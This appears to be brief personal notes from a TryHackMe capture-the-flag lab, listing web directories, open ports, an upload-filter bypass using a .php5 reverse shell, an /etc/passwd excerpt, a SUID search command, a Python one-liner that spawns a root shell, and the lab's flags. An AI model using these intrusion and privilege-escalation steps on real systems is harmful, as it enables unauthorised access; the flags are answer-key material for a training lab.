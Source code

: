 /uploads
/css
/js
/panel - file upload
/server-status

22: ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80: http Apache/2.4.29 (Ubuntu)

pentestmonkey rev shell script.
reverse shell rip2.php5 passed

priv esc:
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
rootme:x:1000:1000:RootMe:/home/rootme:/bin/bash
test:x:1001:1001:,,,:/home/test:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

ssh test@<ip> psw: test
"Sorry, user test may not run sudo on rootme."


find / -user root -perm /4000
/usr/bin/python


/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")' == root
root/root.txt THM{pr1v1l3g3_3sc4l4t10n}

find / user.txt | grep 'user.txt'
/var/www/user.txt THM{y0u_g0t_a_sh3ll}

